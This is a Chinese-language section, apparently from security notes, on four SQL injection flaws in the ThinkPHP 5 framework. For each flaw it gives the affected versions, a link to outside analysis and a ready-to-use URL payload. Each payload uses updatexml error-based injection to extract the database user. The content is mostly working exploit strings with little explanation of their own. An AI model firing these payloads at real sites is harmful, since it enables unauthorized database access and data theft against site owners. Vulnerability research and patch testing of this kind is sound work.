 ## 0x02 ThinkPHP与SQL注入漏洞

ThinkPHP在历史上爆发出很多的SQL注入漏洞，本部分将详细的对其进行具体分析。

### 一、Builder类parseData方法

影响版本：5.0.13-5.0.15、5.1.0-5.1.5

payload：

> index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1

代码分析：5.0.15

https://www.jianshu.com/p/18d06277161e

参考 https://github.com/Mochazz/ThinkPHP-Vuln/

### 二、Builder类parseOrder方法

影响版本：5.1.16-5.1.22

payload：

> index/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1

代码分析：5.1.22



### 三、Mysql类parseArrayData方法

影响版本：5.1.6-5.1.7

payload：

> /index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0

代码分析：5.1.7

[https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8BSQL%E6%B3%A8%E5%85%A52.md](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5漏洞分析之SQL注入2.md)

### 四、Mysql类的parseWhereItem方法

影响版本：ThinkPHP5全版本

payload：

> /index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

代码分析：5.0.10

[https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8BSQL%E6%B3%A8%E5%85%A53.md](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5漏洞分析之SQL注入3.md)
